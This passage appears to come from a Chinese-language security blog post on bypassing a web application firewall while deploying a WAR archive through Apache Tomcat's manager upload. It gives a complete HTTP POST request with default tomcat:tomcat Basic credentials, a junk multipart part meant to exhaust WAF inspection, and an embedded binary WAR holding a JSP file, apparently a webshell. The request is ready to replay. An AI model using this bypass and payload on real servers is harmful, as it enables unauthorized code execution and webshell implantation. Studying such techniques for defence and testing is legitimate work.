 因此需要利用`multipart/form-data`的特性,添加垃圾数据块,使WAF无法对war包进行检测,同时tomcat不对垃圾数据进行处理,顺利部署war包

样例如下

```
POST /manager/html/upload;jsessionid=90151C6DAF8D510DF8E71D036D47F1F4?org.apache.catalina.filters.CSRF_NONCE=2812C24315E7A0FC3C55DB6D125DB7BC HTTP/1.1
Host: 192.168.89.129:8080
Content-Length: 1379
Cache-Control: max-age=0
Authorization: Basic dG9tY2F0OnRvbWNhdA==
Origin: http://192.168.89.129:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCYU5Y59MNL5BAit4
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.89.129:8080/manager/html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=90151C6DAF8D510DF8E71D036D47F1F4
Connection: close

------WebKitFormBoundaryCYU5Y59MNL5BAit4
Content-Disposition: form-data; name="asdf"; filename="qwer"
Content-Type: asdfqwer

aaaaaaaaaaaaaaaaaaaaaa
------WebKitFormBoundaryCYU5Y59MNL5BAit4
Content-Disposition: form-data; name="deployWar"; filename="bypass.war"
Content-Type: application/x-webarchive

PK��{U������������	��META-INF/���PK�����������PK��{U���������������META-INF/MANIFEST.MFMLK-.
K-*ϳR03r.JM,IMu	X)h%&*8%�krr�PKM7D���E���PK��]T���������������bp1.jspmTOkAStdllHWlBZ1KavwMvם4TU<x{[LƓ_D1d{/ۙkr$:Q+Ǹ֙(647L/F*W̼1q!73qk3)2D2ǽe<!d{E^GMvG+.\%q4yC\K5<hD9@8w.WkKlX2|*A9/|Tmp%5jpooNvSNǷO_><ڱ*`uơ1wy7|A\Jf۬pl$]#x5I2Ac)oK"3uQ+%ɄH2^#g@(\jnƇR9 ]bB3
L#g/WʗB-ã';oOQ"P+1'MeԲS
UxRMRMhJ2K2
+۲,Zr6ΗI;a0D9X3v&&'d׌h_;	c+b5	k	fBñv$5T(w?<lÏo`ӡ%td%\sIc6zuh' 	klK)fGtBXLfE
`+"`m2΢[6@spPKZV#o��d��PK���{U�����������	����������������META-INF/��PK���{UM7D���E����������������=���META-INF/MANIFEST.MFPK���]TZV#o��d������������������bp1.jspPK�������������
------WebKitFormBoundaryCYU5Y59MNL5BAit4--
```

当第一个垃圾数据块的长度超过WAF的处理能力时,部分的WAF会直接放行

![](https://img.mi3aka.eu.org/2022/08/e2c35ee5125a18195d99c3d81120f007.png)
